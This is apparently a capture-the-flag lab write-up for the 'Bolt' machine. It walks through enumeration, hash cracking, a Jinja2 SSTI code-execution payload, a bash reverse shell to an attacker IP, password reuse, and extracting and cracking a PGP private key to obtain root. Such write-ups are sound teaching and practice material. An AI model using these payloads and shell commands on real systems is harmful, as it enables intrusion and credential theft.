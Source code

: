 ## Enumeration

`$ nmap -p- -A --open 10.10.11.114` 

```bash
Nmap scan report for 10.10.11.114
Host is up (0.23s latency). 
Not shown: 65532 closed ports 
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:
|   3072 4d:20:8a:b2:c2:8c:f5:3e:be:d2:e8:18:16:28:6e:8e (RSA) 
|   256 7b:0e:c7:5f:5a:4c:7a:11:7f:dd:58:5a:17:2f:cd:ea (ECDSA) 
|_  256 a7:22:4e:45:19:8e:7d:3c:bc:df:6e:1d:6c:4f:41:56 (ED25519) 
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 76362BB7970721417C5F484705E5045D 
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu) 
|_http-title:     Starter Website -  About 
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 82C6406C68D91356C9A729ED456EECF4 
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Passbolt | Open source password manager for teams 
|_Requested resource was /auth/login?redirect=%2F
| ssl-cert: Subject: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty 
Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty Ltd/ 
stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa 
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption 
| Not valid before: 2021-02-24T19:11:23
| Not valid after:  2022-02-24T19:11:23
| MD5:   3ac3 4f7c ee22 88de 7967 fe85 8c42 afc6
|_SHA-1: c606 ca92 404f 2f04 6231 68be c4c4 644f e9ed f132 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The ssl certificate reveals the domain name so go ahead and add it to local hosts.
`$ echo "10.10.11.114 passbolt.bolt.htb bolt.htb" | sudo tee -a /etc/hosts`

## HTTP(S)

On http we have a Starter Website page and on https an open source password manager Passbolt.

On http there's a login and register page. When you register a new user however it will respond with a server error. On the "Pages" drop down menu the Download option gives us a docker tar file. Extrack the tar file.

```bash
tar -xvf image.tar
```

The file contains a lot of layers/directories. We can use a tool like `Dive` to view all files at a nice structured way. 

From poking around we discover a db.sqlite3 in one of the layers. We can extract data from this db.

```bash
sqlite3 a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2/layer/db.sqlite3

sqlite> .table
User
sqlite> select * from user;
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||
```

We can use hashcat to crack the password which will give us the credentials we need to login on the web application on port 80.

`admin:deadbolt`

On the web app on the direct chat function we get a hint to look for virtuals hosts.


```bash
gobuster -q vhosts -u http://bolt.htb -w ~/SecLists/Discovery/DNS/subdomains- 
top1million-5000.txt -t 60
```

We discover `demo.bolt.htb` and `mail.bolt.htb`. Add them to the hosts.

Visiting both subdomains we have login forms but we can't use the same credentials. Also on the `demo` host there's a register panel but requires an invitation code to successfully register a new user.

Back on the docker image we search for an invite code.

Based on the size of each directory we gonna search on the largest one first
```bash
du -sh *
```

Indeed we find a code.

```bash
$ grep -iR 'code' 2>/dev/null        
# XNSS-HSJW-3NGU-8XTJ
```

Use the invite code to register a new user and then login into the application. With the same credentials we can login to the `mail` subdomain too.

On the `demo` vhost and in profile page we can modify the fields we have and try to enter malicious payloads. 

Because we know that the application's server is running Flask from the footer of dashboard page "AdminLTE Flask" we'll try SSTI (common attack vector in Flask applications)


Input a basic payload like `{{7*7}}` on every field on the profile page. After submitting the change it will send a confirmation email on the email app on the other vhost.

Reading the new email we have a SSTI confirmed as the payload is executed and displays 49.

We also know that it uses Jinja2 template and we can try SSTI payloads from PayloadsAllTheThings.

The one that worked is as follows.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

# Back on the email vhost
# uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now that we have code execution we can replace `id` command with reverse tcp shell.
```bash
# replace `id` command in the SSTI payload
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.87/4444 0>&1"
```
Now we have a shell on the system.

## Lateral Movement

Tranfer linpeas to the system. Here are some interesting sections:

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files 
  Group www-data:
/etc/passbolt 
/etc/passbolt/gpg
/etc/passbolt/gpg/serverkey.asc 
/etc/passbolt/gpg/serverkey_private.asc
```

Following the above lead we navigate to `/etc/passbolt` there's we find a password for mysql on `passbolt.php`


```bash
'username' => 'passbolt',
'password' => 'rT2;jW7<eY8!dX8}pQ8%'
``` 

```bash
mysql -u passbolt -p

# two interesting tables "users" and "secrets"
# in "users" we don't find anything but
# in "secrets" we find a pgp key

-----BEGIN PGP MESSAGE----- 
Version: OpenPGP.js v4.10.9 
Comment: https://openpgpjs.org
wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc 
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY 
pCLSEEzPBiIGQ9VauHpATf8YZnwK1JwO/BQnpJUJV71YOon6PNV71T2zFr3H 
oAFbR/wPyF6Lpkwy56u3A2A6lbDb3sRl/SVIj6xtXn+fICeHjvYEm2IrE4Px 
l+DjN5Nf4aqxEheWzmJwcyYqTsZLMtw+rnBlLYOaGRaa8nWmcUlMrLYD218R 
zyL8zZw0AEo6aOToteDPchiIMqjuExsqjG71CO1ohIIlnlK602+x7/8b7nQp 
edLA7wF8tR9g8Tpy+ToQOozGKBy/auqOHO66vA1EKJkYSZzMXxnp45XA38+u 
l0/OwtBNuNHreOIH090dHXx69IsyrYXt9dAbFhvbWr6eP/MIgh5I0RkYwGCt 
oPeQehKMPkCzyQl6Ren4iKS+F+L207kwqZ+jP8uEn3nauCmm64pcvy/RZJp7 
FUlT7Sc0hmZRIRQJ2U9vK2V63Yre0hfAj0f8F50cRR+v+BMLFNJVQ6Ck3Nov 
8fG5otsEteRjkc58itOGQ38EsnH3sJ3WuDw8ifeR/+K72r39WiBEiE2WHVey 
5nOF6WEnUOz0j0CKoFzQgri9YyK6CZ3519x3amBTgITmKPfgRsMy2OWU/7tY 
NdLxO3vh2Eht7tqqpzJwW0CkniTLcfrzP++0cHgAKF2tkTQtLO6QOdpzIH5a 
Iebmi/MVUAw3a9J+qeVvjdtvb2fKCSgEYY4ny992ov5nTKSH9Hi1ny2vrBhs 
nO9/aqEQ+2tE60QFsa2dbAAn7QKk8VE2B05jBGSLa0H7xQxshwSQYnHaJCE6 
TQtOIti4o2sKEAFQnf7RDgpWeugbn/vphihSA984
=P38i
-----END PGP MESSAGE-----
```

But we need a private key to decrypt the message. Luckily password reuse is a think and we can switch to user 'eddie' with the same db password.


## Privilege Escalation

Coonect to eedie via ssh and on the banner screen we read that we email. On `/var/mail` read eddie's received mail.

```bash
cat /var/mail/eddie
From clark@bolt.htb  Thu Feb 25 14:20:19 2021 
Return-Path: <clark@bolt.htb>
X-Original-To: eddie@bolt.htb 
Delivered-To: eddie@bolt.htb
Received: by bolt.htb (Postfix, from userid 1001) 
        id DFF264CD; Thu, 25 Feb 2021 14:20:19 -0700 (MST) 
Subject: Important!
To: <eddie@bolt.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20210225212019.DFF264CD@bolt.htb> 
Date: Thu, 25 Feb 2021 14:20:19 -0700 (MST) 
From: Clark Griswold <clark@bolt.htb>
Hey Eddie,
The password management server is up and running.  Go ahead and download the extension to 
your browser and get logged in.  Be sure to back up your private key because I CANNOT 
recover it.  Your private key is the only way to recover your account.
Once you're set up you can start importing your passwords.  Please be sure to keep good 
security in mind - there's a few things I read about in a security whitepaper that are a 
little concerning...
-Clark
```
Again using linpeas we find the private key.

```bash
══╣ Possible private SSH keys were found! 
/etc/ImageMagick-6/mime.xml
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/
3.0.5_0/index.min.js
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/
3.0.5_0/vendors/openpgp.js
/home/eddie/.config/google-chrome/Default/Local Extension Settings/ 
didegimhafipceonhjepacocaffmoppf/000003.log
```

Read the log file and extract eddie's pgp key. Remove the `/r/n` characters (you can do this in vim with `%s/\\\\r\\\\n/\r/g` and convert to a hash format.

```bash
gpg2john gpg.key > gpg.hash 
```

Take the hash and crack with john.
```bash
john gpg.hash --wordlist=/usr/share/wordlists/rockyou.txt
# merrychristmas   (Eddie Johnson)
```

Now import the key and then decrypt the message using the above passphrase

```bash
gpg --import gpg.key # on the prompt use the passphrase

gpg -d passbolt.key # on the prompt use the passphrase

# {"password":"Z(2rmxsNW(Z?3=p/9s","description":""}
```
Switch to root using the above password.

